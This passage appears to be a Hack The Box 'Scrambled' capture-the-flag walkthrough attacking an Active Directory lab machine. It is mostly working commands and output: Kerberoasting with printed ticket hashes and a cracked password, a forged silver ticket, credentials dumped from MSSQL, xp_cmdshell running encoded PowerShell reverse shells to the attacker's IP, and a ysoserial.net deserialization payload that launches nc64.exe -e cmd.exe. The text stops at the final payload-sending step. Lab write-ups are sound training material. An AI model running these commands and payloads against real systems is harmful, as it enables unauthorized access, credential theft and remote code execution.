[-] User ksimpson doesn't have UF_DONT_REQUIRE_PREAUTH set

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# impacket-GetNPUsers scrm.local0/ksimpson:ksimpson -request -dc-ip 10.10.11.168
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate ksimpson, getting its TGT
[-] Kerberos SessionError: KDC_ERR_WRONG_REALM(Reserved for future use)

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# impacket-GetNPUsers scrambled.htb/ksimpson:ksimpson -request -dc-ip 10.10.11.168
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate ksimpson, getting its TGT
[-] Kerberos SessionError: KDC_ERR_WRONG_REALM(Reserved for future use)
```

Notice that the `scrm.local0` only try to get TGT and failed. 

###### `Grabbing the ticket for user ksimpson`
```
# impacket-getTGT scrm.local/ksimpson:'ksimpson'  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in ksimpson.ccache
```

###### `List Kerberos Ticket`
```
# klist      
Ticket cache: FILE:ksimpson.ccache
Default principal: ksimpson@SCRM.LOCAL

Valid starting       Expires              Service principal
09/06/2024 01:16:53  09/06/2024 11:16:53  krbtgt/SCRM.LOCAL@SCRM.LOCAL
        renew until 09/07/2024 01:16:53
```

###### `smb access using kerberos ticket`
```
# impacket-smbclient -k -no-pass scrm.local/ksimpson@DC1.scrm.local 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
```

```
# impacket-smbclient -k -no-pass scrm.local/ksimpson@DC1.scrm.local 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
# use Public
# ls
drw-rw-rw-          0  Thu Nov  4 18:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 18:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 13:45:07 2021 Network Security Changes.pdf
# 
```
Grabbing the PDF file and let's open it.



Due to none of the Shares were writable, I was not able to get a shell.
```
# impacket-psexec -k -no-pass scrm.local/ksimpson@DC1.scrm.local  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on DC1.scrm.local.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'HR' is not writable.
[-] share 'IT' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'Public' is not writable.
[-] share 'Sales' is not writable.
[-] share 'SYSVOL' is not writable.
```

```
# impacket-wmiexec -k -no-pass scrm.local/ksimpson@DC1.scrm.local  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[-] WMI Session Error: code: 0x80041003 - WBEM_E_ACCESS_DENIED
```

###### `Kerberoasting`

So far we have one user `ksimpson` with SMB access and one PDF file. At this point, I was bit stuck because I knew that there's still something else I can do with Kerberos. Specially after reading the PDF file. I clicked on `Hint` on HTB for Task 7 and found that I can do `Kerberoasting`. Let's try it out.
```
# impacket-GetUserSPNs scrm.local/ksimpson -request -k -no-pass -dc-host DC1.scrm.local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2024-09-05 13:21:56.500089             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2024-09-05 13:21:56.500089             


$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$91eee7f9925899746668c18f7818be12$a9cf9bcff9fbec16f67b690e7a86c11b7b0e9cee2e03edafcf8f880466f56d219f261b65de2c3136ee53a1a5b7a97c68983601ed02bb3bc27b749953ec0571c1002db1dc30f10a58523f7b7b66a0fa6fb6a326136054a6f83c1a34f21eb53ab8b602ff66a2aa509cba8b6235c8091ff03b4c1030660ce8c82a203f4e2ba531d853e3994485e04cdc87158354d9c539a48f3cd3a6c98ca0c98ce1970cc0bac86c473242757f62d89a3dc8c77b4c0b1b64386b10bfb9ca7bdc0bc763b8f1a9a32af8f3cf276631e3c49523a1c48576e76a5848859a226979cfdab7c802c50d2ede1fc0377d44b406fc216503367da3ffdfd9e72a34207cea15d390e1b9b979239fdb7b0f9a1ab71ae6c8947996a36afa0af694975f59443715e53047baaf706f1f5eb9de6bf64bfb1319e4caab9f8e1fd16007bedb13a09effdbecaadd4fd4942814b34735418efd6261159c3a376cc7a07f0c6d190ec32a4fac4f86a0ec942c000c8566372e553e1ab7cb9fe66e0ce05dec1e0bc99aff51313b67befeb514fd96b3afdb26d8ebf29e23e909436581819409763ef9bd3f98c60ac906dc46c115f48a42551273b8f89518dabaee38e7ef6eb40e9c6a20483fa66331283f24e6ba30a85b4dd3f5c335460ca981a4ab903af8c3f2497625ee5c079aa9d97c2f2bd280b08439f4e2eadbc29d52c47ff001e778b886e67caf216c24fc4d6575e292f2f1fd539e433fc45635dfad03a09ea960f0d0a6be37c94dddbdea2bb5f1aa7c541dc42a273a38cfe294ba6eefd55750ff8d334808cc89f41c732f352d240fb38f7dc5046ba478a400dcf9375a8d78208de6ebf8155a4812f6b9993210e682fa79536fd2a0cf24a9192316a944571b6a25618eca4fa11ebe253eba149235ff9ca169aad3c664b1ba624f1a61593bf2c2560beadb6b11a5e7b5e0ba14d85a606421d21cfe05a7890fc39ab9c945b6068c648ec7cc23f2cad766387b7845379670aa533f017c506a93eedc94526161a49eed41c4c6774734b5d39b092221d3fc8beba209b4d8d222c15216f49e2a5f9a1b5951db600f0a731baf5bba1e5e58003d35d73a35654a5b6efda8f74b3e7d3075e07855db9759b7119ffce78f5f68e91a1be5855fc870608e191def9c92f89452b6f50bb818a964346704428abe6c419f079bbee6d593011eae389aeca1428ef497ab9fc226d8bddd5e355e3019de228554103430193c6226f8ec6b68bdddd4bd3a89e0e1072b91e8d3c59072411936de1ac548a755ace8a815cd92fd2d7c9f44f48b38291a13e1be79f1d618c2c2b50b569b02d55275db0c2235f86cea2c65b1d3b6718d2bd7ebcd35bc70e8cea95bb1989bf1837767068797f2b91139e2320fccf233fc3f6f2d2bd645247a8735a2321e06412828c6708af555fe71f868bfaefc0bb254946894edf669d7751c
```

###### `Cracking krb5tgs`

Do look at [HashCat CheatSheet](https://github.com/frizb/Hashcat-Cheatsheet/blob/master/README.md) to crack the hash. The following command was used to get the password for the user `sqlsvc`.
```
# hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$137c60f8d2c374fab3312c701a0c123c$c2831f4bc0556ec9ce7da65da393df690a2cdc508b77eccd80ce554f520120e5f14471f4638be549e60aa98d33528a97936159f91d72fb49e9ce800a1db2895a85f228adba9d11d8ccd812340194b876911a5b24f3024beb184f748982080f79a14fa8926c268c824c9e09d248c909afd6a2663c009109e387f0306d39d8a3add86b16bfb3a226173c718ad6cbbe5fbd5d7d17c41b980f1349740e4f228966e2aa3c4db68b3bbf68ea487307e6e3fb61e3d15c079e8e5e18e8896bd8d3925bdf6fdcda68c931b4f64e78a1486475bea9d62dbc2237a64a1ec8d17b8dcfbb4781e2aaa05dc5a781d614ed2179026225002ba8ab1646d95c1337eca8e77f7e9bb588886f6ea60aadfa92cd3c0f934cf34d6876a80a891a96608f3b0e2a546e25e6229806c2c26a461613b02e7e3f217990215d7ade2fd538a3b4b9c80f99b78ef7e0aa713ba48f8c98fb7d8db7ee87313c7fd9b579502e3b66d83a1d50b8b6daaf7f6c8912a817fd4e4195bfedc9d029115b6d2a9601264586e3b59781be41dc6bbc6aae8a02ab1174cafbcfbb2422d4835df2a7c6940fb7a0f64bc41d3be848c9f1289d625165a8192a9d718773c089d4f49e269c64e999fba9fe08e126a830c7d421c99371276893593b0f43c7590093df37778635c988a08f0f097101033529e1c26778c11af43ea9cf1a5a1b70dedfb5c05ce8f8e1780b7fa0db15734a917b19777f0e424baca5cc349004d0e60dcb153302acb0e358f7209f7bd62fd9c568b921cd1ff8b86b6848532f22ab1f1c2c63d48391109e2b014a11e07a96f9229be921230ca4e700f7518dd04b6c6463fc7046fd32d6dc027ac8658de6075153019a7cfd0e925c28a059d4d1d610f414d0db0d935c7ebe907b689948b4848eac9b995f03e77fc5b082b2560243c927487430337c2c0c1223c955ee1326abb7474ad12f8616002564163cfdb0e766dfea912d5809f5ac70392bb9710274b4c4112d4a14a8dbce1d84c1e1b469343e20a7f175e9ac546028d0f0aafa0b12fb7a49d9d8a871d7c914e7cdf26921e11a8f6082282f08723a26db7e1f604ec900bcf054b42dadf2563c74a989ded620a3a1bde3150e23e5a12c93115f5cb01280e333e0e32f074ffceb0143d1315c075120e1304d918a59fa0187bc67aea6b3403a280a10e6cf554db30cd892f928dfc21c6af302431f77a10ebf454e249808bb2fafb8b570b960d28cd54d330a31d08394fe2437ea93b135710920b9dc725fec80fc2b63dcb71df55caceec63efa1fcb71fac727960e2b994ba49a6f1099604177b0d12baad47050401500b4c42103130b9d8bc7eb2776667dfb8104dd06320d7b384daaf0bff593c23cf8d7a0764cb9431adbbd9d0693e8da0aa73a40952d0b3c3192dcb1e91a3495aa20233ded472f00e01435fece5bbafd43032cc080:Pegasus60
                                                          
Session..........: hashcat
Status...........: Cracked
```

However the `evil-winrm` still won't work with the user `sqlsvc`.

###### `Getting NTLM hash from Plain Text`
```
# python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Pegasus60".encode("utf-16le")).digest()))'
b'b999a16500b87d17ec7f2e2a68778f05'
```

###### `Getting Domain SID using impacket-getPAC`
```
# impacket-getPac scrm.local/ksimpson:ksimpson -targetUser sqlsvc 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   465084600 
    dwHighDateTime:                  31129528 
LogoffTime:                     
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
KickOffTime:                    
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
PasswordLastSet:                
    dwLowDateTime:                   1421020567 
    dwHighDateTime:                  30920912 
PasswordCanChange:              
    dwLowDateTime:                   2132594071 
    dwHighDateTime:                  30921113 
PasswordMustChange:             
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
EffectiveName:                   'sqlsvc' 
FullName:                        'SqlSvc' 
LogonScript:                     '' 
ProfilePath:                     '' 
HomeDirectory:                   '' 
HomeDirectoryDrive:              '' 
LogonCount:                      55 
BadPasswordCount:                0 
UserId:                          1613 
PrimaryGroupId:                  1620 
GroupCount:                      1 
GroupIds:                       
    [
         
        RelativeId:                      1620 
        Attributes:                      7 ,
    ] 
UserFlags:                       32 
UserSessionKey:                 
    Data:                            b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' 
LogonServer:                     'DC1' 
LogonDomainName:                 'SCRM' 
LogonDomainId:                  
    Revision:                        1 
    SubAuthorityCount:               4 
    IdentifierAuthority:             b'\x00\x00\x00\x00\x00\x05' 
    SubAuthority:                   
        [
             21,
             2743207045,
             1827831105,
             2542523200,
        ] 
LMKey:                           b'\x00\x00\x00\x00\x00\x00\x00\x00' 
UserAccountControl:              528 
SubAuthStatus:                   0 
LastSuccessfulILogon:           
    dwLowDateTime:                   0 
    dwHighDateTime:                  0 
LastFailedILogon:               
    dwLowDateTime:                   0 
    dwHighDateTime:                  0 
FailedILogonCount:               0 
Reserved3:                       0 
SidCount:                        1 
ExtraSids:                      
    [
         
        Sid:                            
            Revision:                        1 
            SubAuthorityCount:               1 
            IdentifierAuthority:             b'\x00\x00\x00\x00\x00\x12' 
            SubAuthority:                   
                [
                     2,
                ] 
        Attributes:                      7 ,
    ] 
ResourceGroupDomainSid:          NULL 
ResourceGroupCount:              0 
ResourceGroupIds:                NULL 
Domain SID: S-1-5-21-2743207045-1827831105-2542523200

 0000   10 00 00 00 93 C4 1B 84  B9 A3 37 1E F3 96 7A 3D   ..........7...z=
```

###### `Getting Sliver Ticket for the Administrator User`
```
# impacket-ticketer -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

###### `Geting SQL Shell for user sqlsvc`
Now that we have the Sliver Ticket for the user sqlsvc, we can use `impacket-mssqlclient` to get MSSQL shell on the target.
```
# KRB5CCNAME=Administrator.ccache impacket-mssqlclient DC1.scrm.local -k
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)> 
```

###### `Enumerating Database`
```
SQL (SCRM\administrator  dbo@master)> enum_db
name         is_trustworthy_on   
----------   -----------------   
master                       0   
tempdb                       0   
model                        0   
msdb                         1   
ScrambleHR                   0 

You can also use the following query
SQL (SCRM\administrator  dbo@msdb)> SELECT name from master.sys.databases;
name         
----------   
master       
tempdb       
model        
msdb         
ScrambleHR   
```
We have an interesting database `ScrambleHR`.  Let's Enumerate SQL Tables

###### `Enumerating Tables from SQL DB`
```
SQL (SCRM\administrator  dbo@msdb)> SELECT TABLE_NAME FROM ScrambleHR.INFORMATION_SCHEMA.TABLES;
TABLE_NAME   
----------   
Employees    
UserImport   
Timesheets 
```
Trying to print everything from above three tables.

###### `Getting data from SQL DB - Creds for user MiscSvc`
```
SQL (SCRM\administrator  dbo@msdb)> use ScrambleHR;
[*] ENVCHANGE(DATABASE): Old Value: msdb, New Value: ScrambleHR
[*] INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.

SQL (SCRM\administrator  dbo@ScrambleHR)> select * from UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900   scrm.local                90               0   

SQL (SCRM\administrator  dbo@ScrambleHR)> select * from Employees;
EmployeeID   FirstName   Surname   Title   Manager   Role   
----------   ---------   -------   -----   -------   ----   

SQL (SCRM\administrator  dbo@ScrambleHR)> select * from Timesheets;
EmployeeID   TimeStart   TimeEnd   
----------   ---------   -------   
```
First I put `use ScrambleHR` to print data from the Tables in the ScrambleHR Database. following to that, Printing the data from all three tables. We got Creds for user `MiscSvc`
###### `Enumeration Impersonation using SQL Shell`
```
SQL (SCRM\administrator  dbo@msdb)> enum_impersonate
execute as   database   permission_name   state_desc   grantee    grantor                        
----------   --------   ---------------   ----------   --------   ----------------------------   
b'USER'      msdb       IMPERSONATE       GRANT        dc_admin   MS_DataCollectorInternalUser   
```

###### `Impersonate with Execute as User`
```
SQL (SCRM\administrator  dbo@ScrambleHR)> exec_as_user scrmadm
ERROR: Line 1: Cannot execute as the database principal because the principal "scrmadm" does not exist, this type of principal cannot be impersonated, or you do not have permission.

SQL (SCRM\administrator  dbo@ScrambleHR)> exec_as_user MiscSvc
ERROR: Line 1: Cannot execute as the database principal because the principal "MiscSvc" does not exist, this type of principal cannot be impersonated, or you do not have permission.

SQL (SCRM\administrator  dbo@ScrambleHR)> exec_as_user administrator
ERROR: Line 1: Cannot execute as the database principal because the principal "administrator" does not exist, this type of principal cannot be impersonated, or you do not have permission.
```
Once you get the SQL Shell, You should try to run `exec-as-user <UserName>` command, to see if you can execute or get a shell as another user. In this box, we did not have permission to do that.

###### `Getting Shel As User sqlsvc`

Generate a PowerShell from revshells.com (PowerShell #3 Base64) Than `enable_xp_cmdshell` command the enable the shell command execution and following to that `xp_cmdshell` command to catch the reverse shell on port 4444.
```
SQL (SCRM\administrator  dbo@ScrambleHR)> enable_xp_cmdshell
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (SCRM\administrator  dbo@ScrambleHR)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
<THIS SHELL WILL HANG HERE. DO NOT PRESS CTRL+C>
```

On the NetCat Listener Side,
```
$ nc -lvnp 4444                                                                                   
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.168] 53769

PS C:\Windows\system32> whoami
scrm\sqlsvc
PS C:\Windows\system32> 
```

###### `Upgrade the shell from sqlsvc to MiscSvc`
Now that we have a stable shell as above. We also enumerate the credentials for the user `MiscSvc` from the UserImport database. We will do exact same thing again to get the reverse shell for the user `MiscSvc`. But this this we are going to use some PowerShell Commands.
```
PS C:\Windows\system32> $PWD = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force

PS C:\Windows\system32> $CRED = New-Object System.Management.Automation.PSCredental('scrm\miscsvc',$PWD)    

PS C:\Windows\system32> Invoke-Command -Computer dc1 -Credential $CRED -ScriptBlock {powershell.exe -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=}
<THIS SHELL WILL HANG HERE. DO NOT PRESS CTRL+C>
```

On the NetCat Listener Side, **YES YOU CAN START NetCat Listener on port 4444 again and the first shell won't die**
```
$ sudo nc -lvnp 4444
[sudo] password for ringbuffer: 
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.168] 53527

PS C:\Users\miscsvc\Documents> whoami
scrm\miscsvc
PS C:\Users\miscsvc\Documents> 
```
Get your user flag.

### Privilege Escalation

winPEAS.ps1, winPEASany.exe, winPEAS.bat or even SharpHound was not working for this box. So i decided to enumerate manually. Found the Share folder with one EXE and DLL under `C:\Shares\IT\Apps\Sales Order Client\`. I will get these files on to my kali for further analysis.

###### `PowerCat - File Transfer`
```
PS C:\ProgramData> curl -o powercat.ps1 http://10.10.14.2/powercat.ps1
PS C:\ProgramData> powercat
You must select either client mode (-c) or listen mode (-l).

PS C:\ProgramData> powercat -c 10.10.14.2 -p 1234 -i "C:\Shares\IT\Apps\Sales Order Client\ScrambleClient.exe"

# nc -w 2 -lvnp 1234 > ScrambleClient.exe
listening on [any] 1234 ...
no connection : Connection timed out

# ls
ScrambleClient.exe

PS C:\ProgramData> powercat -c 10.10.14.2 -p 1234 -i "C:\Shares\IT\Apps\Sales Order Client\ScrambleLib.dll"

# nc -w 2 -lvnp 1234 > ScrambleLib.dll   
listening on [any] 1234 ...
no connection : Connection timed out
```
The above output where it starts with `#` is from Attacker Machine (Kali). However, I was getting a file with Zero Bytes. Trying another way now.

###### `Downloading File over SMB`
```
# impacket-smbclient -k scrm.local/MiscSvc:ScrambledEggs9900@dc1.scrm.local -dc-ip dc1.scrm.local
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
# use IT
# ls
drw-rw-rw-          0  Wed Nov  3 15:32:55 2021 .
drw-rw-rw-          0  Wed Nov  3 15:32:55 2021 ..
drw-rw-rw-          0  Wed Nov  3 17:06:32 2021 Apps
drw-rw-rw-          0  Wed Nov  3 15:32:44 2021 Logs
drw-rw-rw-          0  Wed Nov  3 15:32:55 2021 Reports
# cd Apps
# cd Sales Order Client
# get ScrambleClient.exe
# get ScrambleLib.dll
```

###### `Reverse Engineering EXE and DLL ScrambleClient/ScrambleLib`
Opening EXE with the dnSpy. Couple of Interesting things to notice in the source code. Yes you opened EXE on your Windows and retrieve the order where you got to know how to send your payload.
`When you solved this box again next time, I want you to stuck here again and again until you learn the lesson.`
I am not posting anything other than just a high level hint. So The EXE file opened with dnSpy has a Logon method. 
The logon method has one user who is allowed to login without pwd. You'll have to figure it out from the source code.
Get EXE on Windows, Connect to HTB Network, login as that user, user WireShark to capture the Serialized Data and finally prepare a payload using [ysoserial.net](https://github.com/pwntester/ysoserial.net/releases/tag/v1.36).

###### `Preparing Payload using Ysoserial.net`

If you managed to crack the last part of properly reverse engineering the app and getting understand on how the data is being sent, now use the following command to generate the payload. This was prepare on Windows CMD.
```
C:\Users\vanda\Downloads\Shared-With-VMs\Scramble.HTB_PrivEsc\ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9\Release>.\ysoserial.exe -f BinaryFormatter -g AxHostState -o base64 -c "C:\\programdata\\nc64.exe 10.10.14.2 444 -e cmd.exe"
AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUBAAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMADAAACAAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAA4gU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIEM6XFxwcm9ncmFtZGF0YVxcbmM2NC5leGUgMTAuMTAuMTQuMiA0NDQgLWUgY21kLmV4ZSIgU3RhbmRhcmRFcnJvckVuY29kaW5nPSJ7eDpOdWxsfSIgU3RhbmRhcmRPdXRwdXRFbmNvZGluZz0ie3g6TnVsbH0iIFVzZXJOYW1lPSIiIFBhc3N3b3JkPSJ7eDpOdWxsfSIgRG9tYWluPSIiIExvYWRVc2VyUHJvZmlsZT0iRmFsc2UiIEZpbGVOYW1lPSJjbWQiIC8+DQogICAgICA8L3NkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgIDwvc2Q6UHJvY2Vzcz4NCiAgPC9PYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQo8L09iamVjdERhdGFQcm92aWRlcj4LCw==
```

###### `Sending Payload and Getting SYSTEM Shell`

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Scrambled.htb]
└─# nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
